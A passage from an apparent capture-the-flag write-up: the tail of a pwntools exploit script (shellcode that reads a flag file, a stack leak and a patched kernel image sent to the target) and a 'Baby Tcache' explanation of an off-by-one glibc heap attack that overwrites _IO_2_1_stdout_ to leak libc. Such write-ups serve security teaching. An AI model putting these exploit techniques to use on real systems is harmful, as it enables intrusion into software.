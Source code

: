 ```python
    inc rax
    syscall

    mov rbp, rax
    push rsp
    ''' +
    shellcraft.write( 1 , 'rsp' , 8 ) + 
    shellcraft.read( 0 , 'rbp' , 0x1000000 ) +
    shellcraft.pushstr( 'flag2\x00' ) + 
    shellcraft.open( 'rsp' , 0 , 0 ) +
    shellcraft.read( 'rax' , 'rsp' , 0x70 ) +
    shellcraft.write( 1 , 'rsp' , 0x70 )
)

y.sendlineafter( 'down.' , s )
y.recvline()
user_stack = u64( y.recv(8) )
success( 'User stack -> %s' % hex( user_stack ) )

kernel_mod = kernel[:0x14d] + p64( 0x8002000000 ) + p64( user_stack + 0x100 )
kernel_mod += kernel[0x15d:0x9a4] + '\x90' * 0x75

sleep(1)
y.send( kernel_mod )

y.interactive()

```

### Baby Tcache

Off-by-one null byte on heap.
Overwrite next chunck inuse bit and set proper pre_size.
Free next chunck and  it will merge to previous chunck.
At this point, there is a overlap large unsorted bin.
Free one 0x20 chunck and malloc property size.
Let unsorted bin fd overwrite tcache fd.
Partially ovewrite last two bytes to  tcache fd point to `_IO_2_1_stdout_`.
Then, you can malloc a address at `_IO_2_1_stdout_`.
Properly modify the value of `_IO_2_1_stdout_`.

* Set _flag = 0x800
* Overwrite last byte of write_base to zero
* _IO_read_end eqaul to _IO_write_base

```clike=
file = {
    _flags = 0xfbad2887,
    _IO_read_ptr = 0x7ffff7dd07e3 <_IO_2_1_stdout_+131> "\n",
    _IO_read_end = 0x7ffff7dd07e3 <_IO_2_1_stdout_+131> "\n",
    _IO_read_base = 0x7ffff7dd07e3 <_IO_2_1_stdout_+131> "\n",
    _IO_write_base = 0x7ffff7dd07e3 <_IO_2_1_stdout_+131> "\n",
    _IO_write_ptr = 0x7ffff7dd07e3 <_IO_2_1_stdout_+131> "\n",
    _IO_write_end = 0x7ffff7dd07e3 <_IO_2_1_stdout_+131> "\n",
    ...

```
Beacause we don't know libc address, we partially ovewrite last byte of _IO_read_base.
Thanks to off-by-one, I can overwrite last byte of _IO_write_base to zero.
Next time call puts. It will print from _IO_write_base and leak libc address.
